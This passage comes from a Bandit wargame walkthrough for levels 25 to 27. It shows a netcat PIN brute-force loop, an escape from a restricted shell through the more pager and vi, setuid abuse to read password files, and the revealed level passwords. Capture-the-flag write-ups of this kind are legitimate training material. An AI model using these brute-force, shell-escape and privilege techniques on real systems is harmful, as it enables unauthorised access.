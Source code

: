         if [ -f result.txt ]; then
            echo "" > result.txt
        else
            touch result.txt
        fi

        cat combinations.txt | nc localhost 30002 >> result.txt

        grep -vE "Wrong!|I am the pincode checker for user bandit25" result.txt

        echo "The correct pin is $(( $(grep -c "Wrong!" result.txt) + $start ))"
        ```

        > The machine is too slow to run all possibilities.

    > The password for `bandit25` is `p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d`.

## 45 - Escapando del contexto de un comando

### Bandit level 26

1. `cat /usr/bin/showtext`: displays the content of `/usr/bin/showtext`.

    ```SH
    #!/bin/sh

    export TERM=linux

    exec more ~/text.txt
    exit 0
    ```

2. `ssh -i bandit26.sshkey bandit26@bandit.labs.overthewire.org -p 2220`: uses the `bandit26.sshkey` key to establish an SSH connection to the `bandit26` on the localhost via SSH on port $2220$.

3. Minimize the terminal sufficiently to trigger the More pager, which displays a banner.

4. `v`: open the editor in More Mode.

5. `set shell=/bin/bash`: setting the shell of the user to a Bash shell.

6. `shell`: execute the shell command to spawn a new Bash shell.

7. `cat /etc/bandit_pass/bandit26`: displays the password for `bandit26`.

    > The password for `bandit26` is `c7GvcKlw9mC7aUQaPx7nwFstuAIBw1o1`.

### Bandit level 27

1. `./bandit27-do cat /etc/bandit_pass/bandit27`: executes the setuid `bandit27-do` with the `cat /etc/bandit_pass/bandit27`. The setuid binary runs with the permissions of the owner (in this case, bandit27), allowing you to read the password file.

    > The password for `bandit27` is `YnQpBuifNMas1hcUFk70ZmqkhUU2EuaS`.

## 46 - Operando con proyectos de Github

### Bandit level 28
